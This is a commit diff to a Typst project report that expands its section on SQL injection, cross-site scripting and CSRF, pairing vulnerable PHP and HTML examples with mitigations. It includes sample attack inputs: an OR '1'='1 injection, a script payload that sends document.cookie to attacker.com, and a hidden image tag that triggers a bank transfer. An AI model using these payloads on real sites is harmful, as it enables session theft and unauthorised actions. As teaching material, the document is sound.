

Before and after one commit to qmi03/hiPHoP, a Typst document (report/chapters/technology/index.typ): two parts of pages 8 and 9 of 9 before the commit and two parts of pages 8 and 9 of 10 after it, joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with Typst 0.15.

Commit message:
fix(report): improve vulnerabilities

````diff
--- a/report/chapters/technology/index.typ
+++ b/report/chapters/technology/index.typ
@@ -322,38 +320,75 @@ Despite these challenges, MySQL remains a solid choice for a wide range of appli
 - Less flexible than NoSQL databases for rapidly changing data structures.
 - Performance can degrade with very large datasets without proper optimization.
 
-== Security vulnerabilities and mitigations
+== Security Vulnerabilities and Mitigations
 
 === SQL Injection
 
-==== Vulnerability
-Raw SQL queries with unsanitized user input allow attackers to manipulate database queries.
+SQL injection occurs when raw SQL queries incorporate unsanitized user input, allowing attackers to manipulate database queries. This vulnerability can lead to unauthorized data access, data corruption, or even complete system compromise. Attackers exploit poorly constructed queries by injecting malicious SQL fragments that alter the query's intended behavior.
 
-==== Mitigation
-- Implemented prepared statements with parameter binding
-- Used PDO with parameterized queries
-- Applied input validation and sanitization
-- Limited database user privileges
+```php
+// Vulnerable code example
+$username = $_POST['username'];
+$query = "SELECT * FROM users WHERE username = '$username'";
+// Attacker input: admin' OR '1'='1
+// Results in: SELECT * FROM users WHERE username = 'admin' OR '1'='1'
+```
+
+Mitigations:
+
+- Prepared statements with parameter binding provide the most effective defense against SQL injection by separating SQL code from data. This approach ensures user input is treated strictly as parameter values rather than executable code.
+
+```php
+// Using PDO with parameterized queries
+$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ?");
+$stmt->execute([$username]);
+$user = $stmt->fetch();
+
+// Or with named parameters
+$stmt = $pdo->prepare("SELECT * FROM users WHERE username = :username");
+$stmt->execute(['username' => $username]);
+$user = $stmt->fetch();
+```
+
+- Input validation and sanitization provide an additional security layer by rejecting or cleaning suspicious input before processing. Limiting database user privileges according to the principle of least privilege ensures that even if an injection occurs, the potential damage remains constrained.
 
 === Cross-Site Scripting (XSS)
 
-==== Vulnerability
-Unsanitized user input rendered as HTML/JavaScript allows attackers to inject malicious scripts.
+XSS vulnerabilities arise when applications render unsanitized user input as HTML or JavaScript, enabling attackers to inject malicious scripts that execute in victims' browsers. These scripts can steal session cookies, redirect users to malicious sites, or manipulate page content.
 
-==== Mitigation
-- Applied context-appropriate output encoding (`htmlspecialchars()`)
-- Implemented Content Security Policy (CSP)
-- Used `HTTPOnly` cookies to prevent JavaScript access
-- Validated and sanitized all user inputs
+```html
+<!-- Vulnerable code -->
+<div>Welcome, <?php echo $_GET['name']; ?>!</div>
+<!-- Attacker input: <script>document.location='https://attacker.com/steal.php?cookie='+document.cookie</script> -->
+```
+
+Mitigations:
+
+- Context-appropriate output encoding prevents browsers from interpreting special characters as code. Functions like `htmlspecialchars()` in PHP convert potentially dangerous characters to their HTML entity equivalents.
+
+```php
+// Proper output encoding
+<div>Welcome, <?php echo htmlspecialchars($_GET['name'], ENT_QUOTES); ?>!</div>
+```
+
+- Content Security Policy (CSP) headers restrict which resources browsers can load, providing defense-in-depth against script injection. HTTPOnly cookies prevent JavaScript access to sensitive cookies, thwarting many session theft attempts even if XSS occurs.
+
+```php
+// Setting CSP header
+header("Content-Security-Policy: default-src 'self'; script-src 'self'");
+
+// Setting HTTPOnly cookie
+setcookie("session_id", $sessionId, $expiry, "/", "", true, true); // Last parameter enables HTTPOnly
+```
 
 === CSRF (Cross-Site Request Forgery)
 
-==== Vulnerability
+CSRF attacks exploit the trust that websites place in authenticated user browsers. Attackers craft pages that automatically submit requests to vulnerable sites, potentially triggering actions like password changes or fund transfers without user awareness.
 
-Attackers can trick users into performing unwanted actions on authenticated sessions.
+```html
+<!-- Malicious page on attacker.com -->
+<img src="https://bank.com/transfer?to=attacker&amount=1000" style="display:none">
+<!-- When visited by an authenticated user, triggers an unwanted transfer -->
+```
 
-==== Mitigation
-- Implemented unique CSRF tokens for forms
-- Validated token and origin on form submissions
-- Added SameSite cookie attributes
-- Required confirmation for sensitive operations
+Mitigations:
````
Also changed, not shown: report/target/main.pdf, report/chapters/technology/index.typ (40 more changed lines).
